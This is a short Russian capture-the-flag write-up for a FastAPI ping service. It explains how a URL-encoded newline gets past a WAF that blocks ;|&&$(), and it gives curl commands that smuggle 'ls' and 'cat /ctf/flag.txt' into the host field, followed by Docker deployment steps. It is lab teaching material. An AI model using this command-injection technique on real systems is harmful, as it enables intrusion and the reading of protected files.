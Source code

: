 ### Описание инфрастуктуры
1) backend:
    - fastapi
2) front1end:
    - html


### Цель задания:
вывести флаг flag.txt
### Решение:
1) По консольному выводу понимаем что программа скорее всего просто выполняет команду ping <наши данные> и скорее всего здесь есть command injection
2) Обращаем внимание на заблокированные символы ;|&&$()
    все эти символы можно было бы использовать для выполнения посторонних команд, но есть еще \n - newline которые WAF не блокирует
    \n ->(Url encode чтобы все корректно работало) = %0A
3) 
```
curl -X POST http://localhost:8000/ping -d "host=8.8.8.8%0Als"
```
выводим список файлов директории находим ctf и в ней же flag.txt

4) 
```
curl -X POST http://localhost:8000/ping -d "host=8.8.8.8%0Acat /ctf/flag.txt"
```
Через браузерную форму \n не сработает он заменится на пробел


### Гайд по развертыванию
1) поменять порты если это требуется в Docker-compose.yml, Dockerfile
2) docker-compose up --build
